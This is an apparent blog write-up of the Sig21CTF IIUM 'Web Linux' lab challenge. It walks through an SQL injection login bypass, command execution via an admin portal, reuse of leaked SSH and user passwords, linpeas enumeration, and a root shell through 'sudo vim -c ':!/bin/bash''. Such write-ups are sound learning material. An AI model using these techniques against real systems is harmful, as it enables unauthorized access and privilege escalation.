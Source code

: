 ```yaml
---
title: Web Linux Sig21CTF IIUM
date: 2022-01-11
categories: [sig21ctf-IIUM, Web-Linux]
tags: [sqli, priv-esc, nodejs, linux, mis-config]     # TAG names should always be lowercase
---
```


### Web Linux Sig21CTF

#### Flag 1.

navigating to http://sig21ctf:3000 we got this login page. From the question hint, we knew that the backend database is mysql. The first thing i think of is SQL-Injection. using this payload I was able to bypass the login `"OR 1=1--"`. Checking the http-headers we can get the flag <br>`flag1: sig21CTF{wh0_s4id_1_need_passw0rd_t0_l0g1n}`

#### Flag 2.

After a successfull login then we can see a command portal, seemingly for the admin to run some system commands,. executing `ls -lah` reveal the contents of the directory.

```bash
drwxr-xr-x  1 root root 4.0K Mar 30 11:37 .
drwxr-xr-x  1 root root 4.0K Mar 30 11:26 ..
-rw-r--r--  1 root root  612 Mar  3 15:34 dashboard.html
-rwxr-xr-x  1 root root 1.1K Mar 11 14:25 deploy.sh
-rw-r--r--  1 root root   38 Mar 30 11:35 flag2.txt
-rw-r--r--  1 root root  950 Mar  3 15:34 login.html
-rw-r--r--  1 root root 3.8K Mar 30 11:25 login.js
drwxr-xr-x 68 root root 4.0K Mar 30 11:34 node_modules
-rw-r--r--  1 root root  47K Mar  3 15:34 package-lock.json
-rw-r--r--  1 root root  359 Mar  3 15:34 package.json
drwxr-xr-x  2 root root 4.0K Mar  3 15:34 static
-rwxr-xr-x  1 root root  158 Mar 30 11:37 wrapper.sh
```

Now its clear that we need to read the file flag2.txt. I tried using `cat` but doesnt work. so i just `tac` instead <br>`flag2: sig21CTF{n0t_0nl7_c4t_c4n_v13w_f1l3s}`

#### Flag 3.

Login at http-header content from earliear, I noticed a ssh credentials `sshuser:qP9jjbYeWzf7zs9t:2222` Using them will give us ssh access to the machine
we simple got the flag at sshuser home <br>`flag3: sig21CTF{1_though7_1t_w4s_s3cur3d_t0_st0r3_th3_55h_k3y5_h3r3}`

#### Flag 4.

downloading linpeas.sh and running it we find the passwd.bak file easily <br> ![img](/assets/img/sig21ctf/linux/nodelogin/flag_4.png) <br>
So now we have another user creds
loggin as abu now we can see the flag at his homes directory
```bash
cat /opt/.passwd.bak
abu:WZd8gvSakFFUL8Me8gza
su abu && cd && cat flag_4.txt
flag4: sig21CTF{643628b8b7e514bb557211424e3796f4
```

#### Flag 5.


Running linpeas again as user abu, we figure out we actually can run /usr/bin/vim as root. <br> time to visit gtfobins  <br> ![img](/assets/img/sig21ctf/linux/nodelogin/flag_5.png) 
```bash
sudo vim -c ':!/bin/bash'
&& cd && cat flag_5.txt
flag5: sig21CTF{y0u_ju5t_g0tt4_l34rn_5tuff_0n_y0ur_0wn}
```
The above command will run vim in command mode and execute `/bin/bash`. since we run vim as root, we can still main our privileges.

#### Flag 6.

Checking the hint we can see that /etc was emphasize. So i just a simple grep command on /etc searching for anything with the flag format. and lucky enough we found something

```bash
grep -R sig21CTF{.*} /etc/ 2>/dev/null
/etc/ssh/sshd_config:# flag6: sig21CTF{52eaf68fadf470e9c993efb54a26ba35} 

```

### CONCLUTION

We started a simple sql injection and eventually we move to pwing the machine and becoming root.
We utilize various mis-configurations on our way. Enumeration is the key, without it we cant find abu's passwd nor seeing the mis-config on /usr/bin/vim . Finding that passwd was our first on becoming root.

Thanks and i hope this helps :)
